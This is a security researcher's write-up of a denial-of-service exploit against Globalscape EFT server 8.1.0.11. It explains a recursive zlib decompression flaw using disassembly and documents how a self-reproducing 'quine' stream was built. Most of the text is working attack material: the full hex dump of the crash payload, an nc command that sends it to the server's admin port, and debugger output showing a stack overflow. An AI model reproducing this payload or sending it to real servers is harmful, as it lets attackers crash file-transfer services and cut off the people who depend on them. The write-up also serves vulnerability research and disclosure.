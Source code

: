 This is a compression bomb that crashes the Globalscape EFT server (version
8.1.0.11) by sending a recursive Zlib stream to the admin port.

A special message id on Globalscape Admin - 0xff7f - indicates a compressed
message. After decompressing the message, it recursively processes the message.
If it's still compressed, it decompresses again, and so on. Here's what the
code looks like:

```
.text:00007FF777341610                         ; rdx = packet
.text:00007FF777341610                         ; r8 = length
.text:00007FF777341610
.text:00007FF777341610                         decompress_and_parse_packet proc near   ; CODE XREF: sub_7FF77713D9F0+BAC↑p
.text:00007FF777341610                                                                 ; decompress_and_parse_packet+8A↓p ...
.text:00007FF777341610
; [...]
.text:00007FF777341632 81 7A 04 7F FF 00 00                    cmp     dword ptr [rdx+4], 0FF7Fh ; <-- Compare message id to 0xff7f
.text:00007FF777341639 74 07                                   jz      short packet_is_compressed ; Jump if compressed
.text:00007FF77734163B E8 90 00 00 00                          call    sub_7FF7773416D0 ; <-- parse the uncompressed packet
.text:00007FF777341640 EB 6B                                   jmp     short return
.text:00007FF777341642                         ; ---------------------------------------------------------------------------
.text:00007FF777341642
.text:00007FF777341642                         packet_is_compressed:                   ; CODE XREF: decompress_and_parse_packet+29↑j
; [... do decompression stuff here ...]
.text:00007FF77734168F 4C 8B C0                                mov     r8, rax
.text:00007FF777341692 48 8B 54 24 28                          mov     rdx, [rsp+0C8h+var_A0]
.text:00007FF777341697 48 8B CE                                mov     rcx, rsi
.text:00007FF77734169A E8 71 FF FF FF                          call    decompress_and_parse_packet ; recurse after decompressing
[...]
```

Because it recurses, if the decompressed message expands back into the same
message, it'll infinitely recurse and crash the server.

Brandon @symmetric Enright, a friend of mine who's a crypto nerd, pointed me
towards "quines", which are, by definition, what I'm looking for - compressed
streams that decompress to the same stream.

Specifically, I found [this blog post](https://research.swtch.com/zip), which
demonstrates how to build a Deflate stream that will decompress back into itself
with an arbitrary prefix/affix - exactly what I needed!

With the help of another friend (David @matir Tomaschik), we brought that
code up to date and modified it to generate a Zlib stream. It created the
following stream, which contains a correct length and message id header:

```
$ hexdump -C recursive.zlib
00000000  e2 00 00 00 7f ff 00 00  78 9c 7a c4 c0 c0 50 ff  |........x.z...P.|
00000010  9f 81 a1 62 0e 00 10 00  ef ff 7a c4 c0 c0 50 ff  |...b......z...P.|
00000020  9f 81 a1 62 0e 00 10 00  ef ff 82 f1 61 7c 00 00  |...b........a|..|
00000030  05 00 fa ff 82 f1 61 7c  00 00 05 00 fa ff 00 05  |......a|........|
00000040  00 fa ff 00 14 00 eb ff  82 f1 61 7c 00 00 05 00  |..........a|....|
00000050  fa ff 00 05 00 fa ff 00  14 00 eb ff 42 88 21 c4  |............B.!.|
00000060  00 00 14 00 eb ff 42 88  21 c4 00 00 14 00 eb ff  |......B.!.......|
00000070  42 88 21 c4 00 00 14 00  eb ff 42 88 21 c4 00 00  |B.!.......B.!...|
00000080  14 00 eb ff 42 88 21 c4  00 00 00 00 ff ff 00 00  |....B.!.........|
00000090  00 ff ff 00 17 00 e8 ff  42 88 21 c4 00 00 00 00  |........B.!.....|
000000a0  ff ff 00 00 00 ff ff 00  17 00 e8 ff 42 12 46 16  |............B.F.|
000000b0  06 00 00 00 ff ff 01 08  00 f7 ff aa bb cc dd 00  |................|
000000c0  00 00 00 42 12 46 16 06  00 00 00 ff ff 01 08 00  |...B.F..........|
000000d0  f7 ff aa bb cc dd 00 00  00 00 aa bb cc dd 00 00  |................|
000000e0  00 00
```

Which, when the Zlib body is decompressed, becomes the same thing:

```
$ dd if=recursive.zlib bs=1 skip=8 count=213 2>/dev/null | openssl zlib -d | hexdump -C
00000000  e2 00 00 00 7f ff 00 00  78 9c 7a c4 c0 c0 50 ff  |........x.z...P.|
00000010  9f 81 a1 62 0e 00 10 00  ef ff 7a c4 c0 c0 50 ff  |...b......z...P.|
00000020  9f 81 a1 62 0e 00 10 00  ef ff 82 f1 61 7c 00 00  |...b........a|..|
00000030  05 00 fa ff 82 f1 61 7c  00 00 05 00 fa ff 00 05  |......a|........|
00000040  00 fa ff 00 14 00 eb ff  82 f1 61 7c 00 00 05 00  |..........a|....|
00000050  fa ff 00 05 00 fa ff 00  14 00 eb ff 42 88 21 c4  |............B.!.|
00000060  00 00 14 00 eb ff 42 88  21 c4 00 00 14 00 eb ff  |......B.!.......|
00000070  42 88 21 c4 00 00 14 00  eb ff 42 88 21 c4 00 00  |B.!.......B.!...|
00000080  14 00 eb ff 42 88 21 c4  00 00 00 00 ff ff 00 00  |....B.!.........|
00000090  00 ff ff 00 17 00 e8 ff  42 88 21 c4 00 00 00 00  |........B.!.....|
000000a0  ff ff 00 00 00 ff ff 00  17 00 e8 ff 42 12 46 16  |............B.F.|
000000b0  06 00 00 00 ff ff 01 08  00 f7 ff aa bb cc dd 00  |................|
000000c0  00 00 00 42 12 46 16 06  00 00 00 ff ff 01 08 00  |...B.F..........|
000000d0  f7 ff aa bb cc dd 00 00  00 00 aa bb cc dd 00 00  |................|
000000e0  00 00                                             |..|
```

We can send that to the admin port on Globalscape EFT:

```
$ nc -v 172.16.166.170 1100 < recursive.zlib | hexdump -C
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 172.16.166.170:1100.
00000000  2c 00 00 00 2b 00 00 00  56 52 53 4e 01 00 00 00  |,...+...VRSN....|
00000010  a0 01 00 80 50 54 59 50  01 00 00 00 00 00 00 00  |....PTYP........|
```

And watch the server crash:

```
(1458.1f90): Break instruction exception - code 80000003 (first chance)
ntdll!DbgBreakPoint:
00007ffb`70a43020 cc              int     3
0:095> g
(1458.1f4): Stack overflow - code c00000fd (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
ntdll!RtlpAllocateHeap+0xb2:
00007ffb`709be412 e8c95bffff      call    ntdll!RtlTryEnterCriticalSection (00007ffb`709b3fe0)
0:090> k
 # Child-SP          RetAddr               Call Site
00 00000028`ed4e4000 00007ffb`709bc4f9     ntdll!RtlpAllocateHeap+0xb2
01 00000028`ed4e41d0 00007ffb`6df6ffa6     ntdll!RtlpAllocateHeapInternal+0x6c9
*** WARNING: Unable to verify checksum for C:\Program Files\Globalscape\EFT Server\cftpstes.exe
02 00000028`ed4e42e0 00007ff7`77b9b217     ucrtbase!_malloc_base+0x36
03 00000028`ed4e4310 00007ff7`77115803     cftpstes!OPENSSL_Applink+0xb35787
04 00000028`ed4e4340 00007ff7`777117b4     cftpstes!OPENSSL_Applink+0xafd73
05 00000028`ed4e4370 00007ff7`77341660     cftpstes!OPENSSL_Applink+0x6abd24
06 00000028`ed4e43a0 00007ff7`7734169f     cftpstes!OPENSSL_Applink+0x2dbbd0
07 00000028`ed4e4470 00007ff7`7734169f     cftpstes!OPENSSL_Applink+0x2dbc0f
08 00000028`ed4e4540 00007ff7`7734169f     cftpstes!OPENSSL_Applink+0x2dbc0f
09 00000028`ed4e4610 00007ff7`7734169f     cftpstes!OPENSSL_Applink+0x2dbc0f
[...]
```

This currently hard-crashes the server.
